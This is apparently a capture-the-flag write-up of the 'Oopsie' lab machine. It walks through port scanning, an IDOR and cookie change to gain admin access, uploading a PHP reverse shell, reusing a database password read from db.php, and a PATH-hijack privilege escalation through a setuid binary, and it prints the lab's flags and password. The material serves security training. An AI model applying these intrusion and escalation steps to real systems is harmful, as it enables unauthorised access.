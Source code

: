 ```yaml
---
layout: default
title: Oopsie
---
```



### Recon

We start with `nmap`, using this command:
```bash
nmap -p- -sVC --min-rate=10000 $target
```
![nmap](image.png)

As you can see, there are two ports, port `22` for *ssh* and port `80` for http server, in this case *apache* server.

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Welcome
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

First we start with `gobuster`, to check for common files and folders, using this command:
```bash
gobuster dir -u http://$target/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

Then, we start to manual crawling, and inspect the sitemap using Burp suite.

![sitemap](image-4.png)

As we can see, it detects the path `/cdn-cgi/login/`, let's check what we can find there.

![login portal](image-1.png)

### IDOR to achieve admin credentials

We can change the `id` in the url `http://10.129.138.30/cdn-cgi/login/admin.php?content=accounts&id=2` and achieving `IDOR`, and by this way getting teh Access ID of the admin, which is `34322`.

![get access id](image-2.png)

When going to uploads, we can see we need to be admin. we can easily change the cookie to get admin access, just change it to `34322`, the access id we achieved earlier.

![uploads denied](image-3.png)

### Upload webshell as an admin

Okay, we want to upload webshell, we can find the file in `/usr/share/webshells/php/php-reverse-shell.php`, which is reverse shell that created by monkey pentesting.
We just need to change the `port` and the `ip`, here is the full webshell
```php
{% include_relative php-reverse-shell.php %}
```

We need to find however the location of the uploaded shell, luckily the  `gobuster` tells us that there is an `uploads` folder, maybe the uploaded php file will be there.

![gobuster](image-5.png)

So, after uploading the `php-reverse-shell.php` we achieve the desired reverse shell.

![reverse shell](image-6.png)

Now, let just paste the commands to make the shell more nice:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
stty raw -echo
stty rows 38 columns 116
```

### moving vertical to robert

We can check the `/etc/passwd` file and see there is another user which is called `robert`, we want to be robert:
```
robert:x:1000:1000:robert:/home/robert:/bin/bash
```

We'll check for the location of the website, maybe they have some credentials.
The files will be in `/var/www/html/cdn-cgi/login`, These are the files i found.
```bash
www-data@oopsie:/var/www/html/cdn-cgi/login$ ls -la
total 28
drwxr-xr-x 2 root root 4096 Jul 28  2021 .
drwxr-xr-x 3 root root 4096 Jul 28  2021 ..
-rw-r--r-- 1 root root 6361 Apr 15  2021 admin.php
-rw-r--r-- 1 root root   80 Jan 24  2020 db.php
-rw-r--r-- 1 root root 5349 Apr 15  2021 index.php
-rw-r--r-- 1 root root    0 Jan 24  2020 script.js
```

After some sniffing, we find this line inside the `db.php` file
```php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
```
We try to connect and check for some useful data in the `mysql` server, using this command, and supplying the password `M3g4C0rpUs3r!`:
```bash
mysql -u robert -p
```
We can't find anything interesting.

![mysql connect](image-7.png)

Okay, let's try another path, maybe robert reuses his passwords, let's try to change to robert using `su robert`, using the password `M3g4C0rpUs3r!`. it worked!

![su robert](image-8.png)

Let's grab the user flag from `user.txt`, using this command:
```bash
cat /home/robert/user.txt
```
and we get this:
```
f2c74ee8db7983851ab2a96a44eb7981
```

### Moving to root

We first run the `id` to view what are the privilages of robert:
```bash
robert@oopsie:~$ id
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
``` 
Okay, robert is in `bugtracker` group, let's check if there are some executable files of this group:
```bash
robert@oopsie:~$ find / -group bugtracker 2>/dev/null
/usr/bin/bugtracker
```

let's check what is exactly this file, what is `/usr/bin/bugtracker`:
```bash
robert@oopsie:~$ ls -l /usr/bin/bugtracker && file /usr/bin/bugtracker
-rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 /usr/bin/bugtracker
/usr/bin/bugtracker: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=b87543421344c400a95cbbe34bbc885698b52b8d, not stripped
```
This is an executable file, with the setuid flag on.

We execute `/usr/bin/bugtracker` with ltrace, using this command:
```bash
ltrace /usr/bin/bugtracker
```

![ltrace the /usr/bin/bugtracker](image-9.png)

As we can see, it asks for some string, and then executes:
```c
system("cat $user_input");
```
this is very interesting, we can exploit this to make our own `cat` file, change the `$PATH` variable, and then achieve root shell!
We can do it because it doesn't use `/bin/cat`.

```bash
robert@oopsie:~$ cd /tmp
robert@oopsie:/tmp$ echo "/bin/bash" > cat
robert@oopsie:/tmp$ export PATH=/tmp:$PATH
robert@oopsie:/tmp$ /usr/bin/bugtracker
```
![achieve root](image-10.png)

We made it, now we only need to read the flag from `/root/root.txt`. remember we touched the `$PATH` variable, so we can use this command:
```bash
/bin/cat /root/root.txt
```

![root flag](image-11.png)

**User Flag:*****`f2c74ee8db7983851ab2a96a44eb7981`***

**Root Flag:*****`af13b0bee69f8a877c3faf667f7beacf`***
